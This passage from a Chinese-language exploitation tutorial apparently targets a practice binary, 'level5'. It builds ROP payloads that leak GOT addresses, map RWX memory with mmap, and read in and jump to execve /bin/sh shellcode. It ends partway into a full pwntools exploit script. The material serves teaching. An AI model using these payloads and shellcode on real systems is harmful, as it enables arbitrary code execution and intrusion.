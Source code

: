 ```
#!python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main) 
```

随后就可以根据偏移量和泄露的地址计算出其他gadgets的地址。

```
#!python
shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
	"\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
	"\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )
shellcode_addr = 0xbeef0000
#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)
#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)
payload3 += p64(shellcode_addr) 

```

然后我们利用 `_dl_runtime_resolve` 里的通用gadgets调用 `mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)` ,开辟一段RWX的内存在 `0xbeef0000` 处。随后我们使用 `read(rdi=0, rsi=shellcode_addr, rdx=1024)` ,把我们想要执行的shellcode读入到 `0xbeef0000` 这段内存中。最后再将指针跳转到shellcode处就可执行我们想要执行的任意代码了。

完整的exp8.py代码如下:

```
#!python
#!/usr/bin/env python
frompwn import *    
elf = ELF('level5')
libc = ELF('libc.so.6') 
p = process('./level5')
#p = remote('127.0.0.1',10001) 
got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)
plt_read = elf.symbols['read']
print "plt_read: " + hex(plt_read)
linker_point = 0x600ff8
print "linker_point: " + hex(linker_point)
got_pop_rax_ret = 0x0000000000023970
print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    
main = 0x400564 
```